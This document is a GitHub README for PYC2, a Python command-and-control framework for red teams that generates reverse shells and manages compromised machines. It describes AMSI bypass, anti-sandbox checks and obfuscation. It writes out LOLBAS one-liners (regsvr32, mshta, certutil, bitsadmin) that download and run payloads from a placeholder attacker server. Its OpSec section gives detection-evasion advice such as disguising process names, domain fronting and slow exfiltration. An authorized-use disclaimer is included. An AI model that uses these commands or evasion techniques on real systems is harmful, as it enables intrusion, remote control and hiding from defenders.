


# C 2 P Y

**Python based C2** 





## 🎯 Overview

PYC2 is a professional-grade Command & Control (C2) framework designed for Red Team engagements and penetration testing. Built with Python and PyQt6, it provides a modern, feature-rich interface for managing compromised systems.

### ⚡ Key Features

**Generate Encrypted Reverse Shells**: Create powerful payloads and reverse shells with built-in XOR encryption for secure communication.




- **🔐 Encrypted Communication**: XOR encryption for secure agent communication
- **🎨 Modern GUI**: Professional dark-themed interface with real-time updates
- **🛡️ AV Evasion**: Multiple techniques including LOLBAS, obfuscation, and compiled agents
- **📊 Agent Management**: Detailed agent information, command history, and stability analysis
- **💣 Payload Generation**: Elite reverse shell generator with multiple categories and encoders
- **🔥 LOLBAS Support**: Living Off The Land techniques using legitimate Windows binaries
- **📸 Advanced Features**: Screenshot capture, file upload, and system enumeration

---

## 📋 Table of Contents

1. [Installation](#installation)
2. [Quick Start](#quick-start)
3. [Features](#features)
4. [Payload Generation](#payload-generation)
5. [Agent Types](#agent-types)
6. [LOLBAS Techniques](#lolbas-techniques)
7. [Command Reference](#command-reference)
8. [OpSec Considerations](#opsec-considerations)
9. [Troubleshooting](#troubleshooting)
10. [Legal Disclaimer](#legal-disclaimer)

---

## 🔧 Installation

### Prerequisites

- Python 3.8 or higher
- PyQt6
- Linux recommended (tested on Kali Linux, Ubuntu, Debian)

### Install Dependencies

```bash
# Install Python dependencies
pip install PyQt6

# Or use requirements file
pip install -r requirements.txt
```

### Clone Repository

```bash
git clone <repository_url>
cd c2py
```

### Verify Installation

```bash
python3 c2_gui.py
```

---

## 🚀 Quick Start

### 1. Start the C2 Server

```bash
python3 c2_gui.py
```

### 2. Configure Listener

- Set **LHOST** (your IP address)
- Set **LPORT** (default: 9999)
- Click **"Start Listener"**

### 3. Generate Payload

- Click **"Payload Generator"** button
- Select category (C2PY Agents recommended)
- Choose payload type
- Set LHOST and LPORT
- Click **"Generate"**
- Copy payload to target system

### 4. Execute on Target

**Python Agent:**
```bash
python3 agent.py
```

**PowerShell Agent:**
```powershell
powershell -ExecutionPolicy Bypass -File agent.ps1
```

### 5. Interact with Agent

Once connected, you'll see the agent in the client table. Select it and use the command input to execute commands.

---

## 💎 Features

### 🖥️ GUI Interface

- **Modern Dark Theme**: Professional appearance with sharp edges and compact design
- **Real-time Updates**: Live agent status and command output
- **Tabbed Interface**: Organized layout for agents, terminal, and logs
- **Context Menus**: Right-click agents for quick actions

### 🔗 Agent Management

- **Multiple Simultaneous Connections**: Handle many agents at once
- **Agent Detection**: Automatically identifies agent type and capabilities
- **Stability Analysis**: Real-time assessment of connection quality
- **Command History**: Track all commands sent to each agent
- **Agent Details Dialog**: Comprehensive information about each agent

### 🛡️ Security Features

- **XOR Encryption**: Encrypted command and control communication
- **AMSI Bypass**: PowerShell agents include AMSI bypass techniques
- **Anti-Sandbox**: Optional anti-sandbox checks in compiled agents
- **Obfuscation**: Random variable names and code obfuscation

### 📊 Monitoring

- **Connection Logs**: Detailed logging of all C2 activity
- **Terminal Output**: Syntax-highlighted command responses
- **System Information**: Automatic gathering of target system details
- **Screenshot Capture**: Visual reconnaissance of target systems

---

## 💣 Payload Generation

### Categories

#### 1. C2PY Agents (Recommended)
**Advanced Python**
- Full XOR encryption
- JSON support
- Persistent connection with retry
- System information gathering

**Legacy Compatible**
- Simple reverse shells
- No dependencies
- Wide compatibility

#### 2. PowerShell
**Advanced**
- AMSI bypass included
- Process injection capable
- Encoded execution

**Simple**
- One-liner shells
- Easy deployment
- No AMSI bypass

#### 3. Bash
**Standard**
- Classic `/dev/tcp` redirects
- Minimal footprint

**Advanced**
- Persistence loops
- File descriptor manipulation

#### 4. Additional Languages
- **Netcat**: Multiple variants
- **PHP**: Web shell capable
- **Perl**: Classic reverse shells
- **Ruby**: Scripted shells

### Encoders

- **None**: Plain text (fastest)
- **Base64**: Standard encoding
- **URL**: URL-safe encoding
- **Hex**: Hexadecimal encoding
- **PowerShell Base64**: Encoded PowerShell execution

### Listener Types

- **c2py**: Full-featured C2 listener (recommended)
- **netcat**: Standard nc listener
- **ncat**: Nmap's netcat
- **socat**: Advanced relay
- **metasploit**: Metasploit handler configuration

---

## 🤖 Agent Types

### C2PY Advanced Agent

**File**: `agents/c2py_advanced_agent.py`

**Features**:
- XOR encrypted communication
- Automatic reconnection
- System information gathering
- Command timeout protection
- Error handling

**Usage**:
```bash
# Edit configuration
sed -i 's/REPLACE_WITH_LHOST/192.168.1.100/g' c2py_advanced_agent.py
sed -i 's/REPLACE_WITH_LPORT/9999/g' c2py_advanced_agent.py

# Execute
python3 c2py_advanced_agent.py
```

### C2PY Basic Agent

**File**: `agents/c2py_basic_agent.py`

**Features**:
- Simple reverse shell
- No encryption
- Minimal dependencies
- Fast execution

**Usage**:
```bash
# Same as advanced agent
```

### PowerShell Agents

**Advanced**: `agents/c2py_advanced_agent.ps1`
- AMSI bypass
- System enumeration
- Persistent connection

**Basic**: `agents/c2py_basic_agent.ps1`
- Simple shell
- No AMSI bypass

**Usage**:
```powershell
powershell -ExecutionPolicy Bypass -File c2py_advanced_agent.ps1
```

---

## 🔥 LOLBAS Techniques

Living Off The Land Binaries and Scripts use legitimate Windows tools to execute malicious payloads.

### Available Techniques

#### 1. RegSvr32 (SCT File)
**Detection**: Very Low

```cmd
regsvr32.exe /s /n /u /i:http://YOUR_SERVER/payload.sct scrobj.dll
```

#### 2. MSBuild (XML File)
**Detection**: Very Low

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe payload.xml
```

#### 3. MSHTA (HTA File)
**Detection**: Medium

```cmd
mshta.exe http://YOUR_SERVER/payload.hta
```

#### 4. WScript (VBS File)
**Detection**: Medium

```cmd
wscript.exe http://YOUR_SERVER/payload.vbs
```

#### 5. CertUtil Download
**Detection**: Low

```cmd
certutil.exe -urlcache -split -f http://YOUR_SERVER/payload.exe C:\Temp\update.exe
```

#### 6. BITSAdmin Download
**Detection**: Low

```cmd
bitsadmin.exe /transfer job /download /priority high http://YOUR_SERVER/payload.exe C:\Temp\update.exe
```

### LOLBAS Setup

1. Navigate to Payload Generator
2. Click LOLBAS button (🔥)
3. Select technique or generate random
4. Host templates on HTTP server:
   ```bash
   cd lolbas_templates
   python3 -m http.server 8080
   ```
5. Execute command on target

**See**: `lolbas_templates/README.md` for detailed instructions

---

## 📚 Command Reference

### Basic Commands

```bash
# System information
whoami
hostname
systeminfo
uname -a

# Directory listing
ls
dir
pwd

# File operations
cat /etc/passwd
type C:\Windows\System32\drivers\etc\hosts

# Network enumeration
ipconfig
ifconfig
netstat -an
```

### Advanced Commands (C2PY Agents)

```bash
# Screenshot capture
screenshot

# File upload
upload /local/path/file.txt /remote/path/file.txt

# Process listing
ps aux
tasklist

# Download files
wget http://example.com/file
curl -O http://example.com/file
```

### Built-in C2 Commands

- `help`: Show available commands
- `exit`: Disconnect agent
- `clear`: Clear terminal
- `screenshot`: Capture screenshot (advanced agents)
- `sysinfo`: Display system information

---

## 🔒 OpSec Considerations

### Network Security

1. **Use Encryption**: Always use c2py advanced agents for encrypted communication
2. **Avoid Plain HTTP**: Consider HTTPS for LOLBAS payloads
3. **Rotate Infrastructure**: Change C2 server IPs regularly
4. **Session Jitter**: Add random delays to avoid pattern detection

### Host-Based Security

1. **Process Names**: Rename agents to look legitimate
2. **Execution Location**: Run from expected locations (temp folders)
3. **Time Delays**: Avoid immediate execution (use scheduled tasks)
4. **Clean Up**: Remove artifacts after use

### Detection Avoidance

1. **Certificate Pinning**: Use HTTPS with valid certificates
2. **Domain Fronting**: Hide C2 traffic behind CDNs
3. **Protocol Mimicry**: Disguise traffic as legitimate protocols
4. **Low and Slow**: Limit command frequency and data exfiltration rate

### Logging Considerations

**Windows Logs to Consider**:
- Event ID 4688: Process creation
- Event ID 5156: Windows Filtering Platform connections
- PowerShell Script Block Logging
- Sysmon (if installed)

**Linux Logs to Consider**:
- `/var/log/auth.log`: Authentication attempts
- `/var/log/syslog`: System events
- `.bash_history`: Command history
- Network connections in `/proc/net/tcp`

---

## 🐛 Troubleshooting

### Connection Issues

**Problem**: Agent won't connect

**Solutions**:
1. Verify LHOST/LPORT are correct
2. Check firewall rules:
   ```bash
   # Linux
   sudo ufw allow 9999/tcp
   
   # Or disable temporarily
   sudo ufw disable
   ```
3. Verify listener is running
4. Test with netcat:
   ```bash
   nc -v LHOST LPORT
   ```

### Payload Execution Issues

**Problem**: Payload won't execute

**Solutions**:
1. Check Python version (`python3 --version`)
2. Verify file permissions (`chmod +x agent.py`)
3. Test dependencies
4. Check PowerShell execution policy:
   ```powershell
   Get-ExecutionPolicy
   Set-ExecutionPolicy Bypass -Scope Process
   ```

### GUI Issues

**Problem**: GUI won't start

**Solutions**:
1. Verify PyQt6 installation:
   ```bash
   pip show PyQt6
   ```
2. Check Python version (3.8+ required)
3. Install missing dependencies:
   ```bash
   pip install -r requirements.txt
   ```

### LOLBAS Issues

**Problem**: LOLBAS payload fails

**Solutions**:
1. Verify HTTP server is accessible
2. Check Windows Firewall
3. Test URL in browser
4. Verify .NET Framework version (for MSBuild)
5. Check file extensions match

---

## 📦 Project Structure

```
c2py/
├── c2_gui.py                          # Main GUI application
├── elite_revshell_generator.py        # Payload generator
├── advanced_agent_generator.py        # Advanced agent creation
├── av_evasion_engine.py               # AV evasion techniques
├── agent_details_dialog.py            # Agent information dialog
├── icon_system.py                     # Icon management
├── README.md                          # This file
├── requirements.txt                   # Python dependencies
├── agents/                            # Agent templates
│   ├── c2py_advanced_agent.py        # Python advanced agent
│   ├── c2py_basic_agent.py           # Python basic agent
│   ├── c2py_advanced_agent.ps1       # PowerShell advanced agent
│   └── c2py_basic_agent.ps1          # PowerShell basic agent
└── lolbas_templates/                  # LOLBAS payload templates
    ├── payload.vbs                    # VBScript payload
    ├── payload.sct                    # Scriptlet payload
    ├── payload.hta                    # HTML Application
    ├── payload.xml                    # MSBuild XML
    └── README.md                      # LOLBAS documentation
```

---

## 🎓 Learning Resources

### Recommended Reading

- **Red Team Field Manual (RTFM)**: Quick reference guide
- **MITRE ATT&CK**: Adversary tactics and techniques
- **LOLBAS Project**: https://lolbas-project.github.io/
- **PayloadsAllTheThings**: GitHub repository with various payloads

### Related Projects

- **Metasploit Framework**: Comprehensive penetration testing framework
- **Cobalt Strike**: Commercial C2 framework
- **Empire/Starkiller**: PowerShell and Python post-exploitation framework
- **Covenant**: .NET C2 framework

---

## 🤝 Contributing

Contributions are welcome! Please:

1. Fork the repository
2. Create a feature branch
3. Test thoroughly
4. Submit pull request

---

## ⚠️ Legal Disclaimer

**FOR AUTHORIZED SECURITY TESTING ONLY**

This tool is designed for:
- ✅ Authorized penetration testing
- ✅ Security research in controlled environments
- ✅ Educational purposes
- ✅ Red team exercises with written permission

**NEVER USE FOR**:
- ❌ Unauthorized access to computer systems
- ❌ Malicious purposes
- ❌ Any illegal activities

### Legal Consequences

Unauthorized use may violate:
- Computer Fraud and Abuse Act (CFAA) - USA
- Computer Misuse Act - UK
- Similar laws in other jurisdictions

**Penalties can include**:
- Criminal prosecution
- Significant fines
- Imprisonment

### Ethical Use

Always:
1. Obtain written authorization
2. Define scope clearly
3. Follow rules of engagement
4. Document all activities
5. Report findings responsibly

**The developers assume NO responsibility for misuse of this software.**

---

## 📞 Support

For questions or issues:

1. Check this README first
2. Review troubleshooting section
3. Test in isolated lab environment
4. Consult documentation in subdirectories

---

## 📄 License

Educational Use Only - See LICENSE file

---

## 🙏 Acknowledgments

Inspired by:
- Metasploit Framework
- Cobalt Strike
- Empire Project
- LOLBAS Project
- MITRE ATT&CK Framework

---

**Version**: 1.0  
**Last Updated**: February 2024  
**Python**: 3.8+  
**GUI Framework**: PyQt6

---

## 🔐 Security Notice

This framework includes encryption and obfuscation techniques. While these provide some protection against casual inspection, they are NOT bulletproof against:

- Modern EDR solutions
- Deep packet inspection
- Behavioral analysis
- Memory forensics
- Advanced threat detection

Always assume defenders have advanced capabilities and plan accordingly.

---

**Remember**: With great power comes great responsibility. Use ethically and legally.
